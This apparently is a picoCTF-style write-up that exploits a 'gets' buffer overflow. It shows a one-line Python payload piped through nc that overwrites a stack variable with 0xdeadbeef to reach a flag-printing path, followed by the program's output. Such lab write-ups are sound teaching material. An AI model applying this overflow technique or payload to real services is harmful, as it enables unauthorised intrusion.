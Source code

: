Quite an easy vulnerability exploitation

We received a binary that we will later communicate for input using regular tcp communication
Loaded up to binary ninja

<img width="701" height="537" alt="code" src="https://github.com/user-attachments/assets/3367d915-e620-4c67-80c2-90a42c961e37" />

It has a classic `gets` buffer overflow. 
The binary is a 64bit binary and the `gets` function is limiting us from sending zeroes...
So we won't be able to send a ROP chain based on the program itself (binary has no PIE) because of the multiple zeroes we'll have to fill in...

Instead of that we can overflow the code variable which is zeroed at the start.
As you can see the stack diff between the buf and the code is 0x108

<img width="455" height="283" alt="stack" src="https://github.com/user-attachments/assets/0e52daea-6bb4-47e8-91c8-fefe00ca015f" />


So we'll only have to make code's value `0xdeadbeef` and we'll be able to lead the program to the system call that reads the `flag.txt`

```
python3 -c 'import sys, struct; sys.stdout.buffer.write(b"\xFF" * 0x108 + struct.pack("<L", 0xdeadbeef) + b"\n")' | nc mars.picoctf.net 31890
 ______________________________________________________________________
|^ ^ ^ ^ ^ ^ |L L L L|^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^|
| ^ ^ ^ ^ ^ ^| L L L | ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ |
|^ ^ ^ ^ ^ ^ |L L L L|^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ==================^ ^ ^|
| ^ ^ ^ ^ ^ ^| L L L | ^ ^ ^ ^ ^ ^ ___ ^ ^ ^ ^ /                  \^ ^ |
|^ ^_^ ^ ^ ^ =========^ ^ ^ ^ _ ^ /   \ ^ _ ^ / |                | \^ ^|
| ^/_\^ ^ ^ /_________\^ ^ ^ /_\ | //  | /_\ ^| |   ____  ____   | | ^ |
|^ =|= ^ =================^ ^=|=^|     |^=|=^ | |  {____}{____}  | |^ ^|
| ^ ^ ^ ^ |  =========  |^ ^ ^ ^ ^\___/^ ^ ^ ^| |__%%%%%%%%%%%%__| | ^ |
|^ ^ ^ ^ ^| /     (   \ | ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ |/  %%%%%%%%%%%%%%  \|^ ^|
.-----. ^ ||     )     ||^ ^.-------.-------.^|  %%%%%%%%%%%%%%%%  | ^ |
|     |^ ^|| o  ) (  o || ^ |       |       | | /||||||||||||||||\ |^ ^|
| ___ | ^ || |  ( )) | ||^ ^| ______|_______|^| |||||||||||||||lc| | ^ |
|'.____'_^||/!\@@@@@/!\|| _'______________.'|==                    =====
|\|______|===============|________________|/|""""""""""""""""""""""""""
" ||""""||"""""""""""""""||""""""""""""""||"""""""""""""""""""""""""""""
""''""""''"""""""""""""""''""""""""""""""''""""""""""""""""""""""""""""""
""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""
"""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""
My room is so cluttered...
What do you see?
code == 0xdeadbeef: how did that happen??
take a flag for your troubles
picoCTF{XXXXXXXXXXXXXXXXX}
```
